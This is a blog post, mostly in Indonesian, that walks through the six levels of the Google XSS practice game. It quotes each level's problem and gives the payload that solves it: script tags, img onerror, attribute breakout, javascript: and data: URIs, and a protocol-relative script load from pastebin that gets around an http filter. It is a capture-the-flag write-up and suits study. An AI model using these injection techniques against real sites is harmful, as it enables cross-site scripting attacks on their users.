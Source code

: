 ```yaml
---
layout: post
title: "Writeup XSS Appspot"
description: "Writeup XSS Appspot"
headline: 
modified: 2017-01-31
category: xss
tags: [xss,ctf,web]
imagefeature: /images/xss-appspot.PNG
mathjax: 
chart: 
comments: true
featured: false
---
```


## Level 1

### Problem

This level demonstrates a common cause of cross-site scripting where user input is directly included in the page without proper escaping. 

Interact with the vulnerable application window below and find a way to make it execute JavaScript of your choosing. You can take actions inside the vulnerable window or directly edit its URL bar.
    
### Solution

parameter query langsung masuk sebagai html jadi kita bisa kirim payload `<script>alert(1)</script>`


## Level 2

### Problem

Web applications often keep user data in server-side and, increasingly, client-side databases and later display it to users. No matter where such user-controlled data comes from, it should be handled carefully. 

This level shows how easily XSS bugs can be introduced in complex apps.

### Solution 

Payload `<img src="x" onerror="alert(1)">`


## Level 3

### Problem 

As you've seen in the previous level, some common JS functions are execution sinks which means that they will cause the browser to execute any scripts that appear in their input. Sometimes this fact is hidden by higher-level APIs which use one of these functions under the hood. 

The application on this level is using one such hidden sink.

### Solution 

dari potongan javascript ini 

``` javascript

    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(self.location.hash.substr(1) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(self.location.hash.substr(1));
        }
      }, false);
    </script>
    
```

yang menarik adalah bagian ini `html += "<img src='/static/level3/cloud" + num + ".jpg' />";`
terlihat input kita masuk ke tag img kemudian di tambain " .jpg' "
maka kita bisa kirim payload gambar yang tidak ada , dan kita tambahkan event onerror
payload `' onerror=alert(1) alt='`


## Level 4

### Problem

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why.

### Solution

disini fungsi start timer di panggil di dalam onload event dan input kita masuk ke parameter dari fungsi starttime
karena dalam event html kita bisa panggil multiple function jadi kita bisa tambahin function alert pake separator ;
`200');alert(1)` tapi itu belum work sebelum kita kirim pake url encode `200%27%29%3Balert%28%271`

## Level 5

### Problem 

Cross-site scripting isn't just about correctly escaping data. Sometimes, attackers can do bad things even without injecting new elements into the DOM.

### Solution

Input kita di parameter ?next= itu masuk ke dalam tag `<a href="{next}">`
simple kita bisa inject javascriptnya

`javascript:alert(1)`

atau juga bisa pake `data:text/html,<script>alert(1);</script>` yang di urlencode jadi
`data%3Atext%2Fhtml%2C%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E`

## Level 6

### Problem

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

### Solution

Kita ngak bisa pake protocol http atau https untuk load file nya
karena dia ada cek

``` javascript

if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
      
```

kita host `alert(1)` ke pastebin terus kita load tapi bukan pake http atau https atau protokol lain tapi
pake `//pastebin.com/raw/6aV0qLz3`

read more : [2 Forward slashes](http://stackoverflow.com/questions/9646407/two-forward-slashes-in-a-url-src-href-attribute/9646435#9646435)


![](/images/solve-xss.PNG)